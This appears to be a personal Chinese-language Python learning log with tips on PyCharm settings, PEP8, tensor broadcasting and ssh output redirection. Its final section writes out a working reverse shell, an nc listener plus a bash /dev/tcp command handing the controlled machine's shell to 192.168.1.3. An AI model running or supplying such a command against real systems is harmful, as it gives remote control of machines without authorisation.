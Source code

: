 # 学习python日志
## 1.pycharm无法使用中文输入法解决办法
pycharm顶部菜单栏选择File---Settings---Plugins,查找安装choose runtime.程序主界面用快捷键Ctrl + Shift + A调出对话框，输入'choose runtime',在choose runtime下拉列表选择安装一个jbsdk安装包。重启ok。
## 2.pycharm有关字体排版问题
如果新环境包字体排版过于紧凑，重新调节字体设置。选择File---Settings---Editor---Font，选择字体型号，大小，行距。
## 3.python 代码书写规范: PEP8 编码规范
[python官方原文](https://legacy.python.org/dev/peps/pep-0008/)
[中文翻译版](https://blog.csdn.net/ratsniper/article/details/78954852)
## 4.数组的广播机制
a = torch.tensor([1,2,3,4])   b = torch.tensor([[100],[200]])    
计算a+b :    
a = [[1,2,3,4],[1,2,3,4]]     b = [[100,100,100,100],[200,200,200,200]]   

a+b = [[101,102,103,104],[201,202,203,204]]
## 5.linux ssh的一个特殊用法   

在远端系统中执行shell(例如ls) 命令， 并把命令输出重定向到本地系统中的一个文件里面   

ssh username@192.168.1.2 'ls /home/' > ./remote-sysinfo.txt    文件保存本地    

ssh username@192.168.1.2 'ls /home/ > ./remote-sysinfo.txt‘    文件保存远端    
## linux反弹shell
控制端开启端口监听：nc -l 3232      

被控端执行命令：bash -i  >& /dev/tcp/192.168.1.3/3232 0>&1  2>&1   被控端shell回显到控制端    
